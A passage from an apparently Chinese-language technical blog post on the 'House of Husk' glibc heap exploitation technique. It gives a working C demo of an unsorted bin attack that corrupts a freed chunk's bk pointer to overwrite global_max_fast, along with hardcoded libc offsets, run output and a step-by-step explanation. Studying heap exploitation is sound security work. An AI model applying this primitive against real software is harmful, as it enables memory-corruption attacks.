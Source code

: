 ### Unsorted bin attack

用于将任意地址覆盖为一个较大的值。

```c
#include <stdio.h>
#include <stdlib.h>

#define offset2size(ofs) ((ofs)*2 - 0x10)
#define MAIN_ARENA      0x3ebc40
#define GLOBAL_MAX_FAST 0x3ed940
#define OFFSET          0x3ecff0

int main()
{
    char* a[2];
    unsigned long libc_base = &puts - 0x80970;

    a[0] = malloc(0x500);
    a[1] = malloc(offset2size(OFFSET - MAIN_ARENA));
    printf("%p\n", a[1]);
    free(a[0]);
    *(unsigned long*)(a[0] + 8) = libc_base + GLOBAL_MAX_FAST - 0x10;
    a[0] = malloc(0x500);

    free(a[1]);

    printf("0x%lx\n", *(unsigned long *)(libc_base + OFFSET));
    return 0;
}
```

```shell
upwind@ubuntu-18:/mnt/hgfs/share/house_of_husk$ ./demo
0x5576bd01b260
0x5576bd01b250
```

offset2size 的公式可以根据前面的推导来算，传入的参数是要覆盖的地址相对 main_arena 的偏移。

![image-20220306152001223](https://up-wind.github.io/assets/2022-02-22-house_of_husk/image-20220306152001223.png)

`free(a[0])` 之后 a[0] 进入 unsorted bin，修改 a[0] 的 bk 指针为 `global_max_fast - 0x10` 的位置，使下一次 malloc 相同大小时，fd 指针正好覆盖 `global_max_fast`。

![image-20220306152101005](https://up-wind.github.io/assets/2022-02-22-house_of_husk/image-20220306152101005.png)

接下来 `free(a[1])`，对应的位置就被填充了 a[1] 的地址。

### printf 源码分析

>用 gdb 调试 elf 文件，在 `gcc` 编译时加上参数 `-g`，就可以在调试时看到对应的源代码。
>
>gdb 调试 libc 时需要把源码加载进来，在 [GNU官网](https://ftp.gnu.org/gnu/glibc) 下载源码后解压，在 gdb 中使用 `directory PATH-TO-SRC` 命令加载。

